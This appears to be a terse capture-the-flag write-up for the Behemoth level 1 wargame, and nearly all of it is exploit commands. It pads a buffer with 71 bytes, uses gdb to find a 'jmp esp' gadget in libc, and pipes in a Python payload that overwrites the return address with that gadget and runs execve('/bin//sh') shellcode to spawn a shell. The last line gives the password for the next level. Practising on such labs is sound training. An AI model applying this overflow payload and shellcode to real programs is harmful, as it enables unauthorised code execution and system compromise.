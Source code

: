 run <<< $(python -c "print 'A' * 71 + 'BBBB'")


find jmp esp(0xffe4) in libc

gdb
info proc map
find /b range start, range end, 0xff, 0xe4
0xf7fc4f97


exploit

run <<< $(python -c "print 'A' * 71 + '\x97\x4f\xfc\xf7' + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80'")
(python -c "print 'A' * 71 + '\x97\x4f\xfc\xf7' + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80'"; cat) | ./behemoth1

behemoth2:eimahquuof
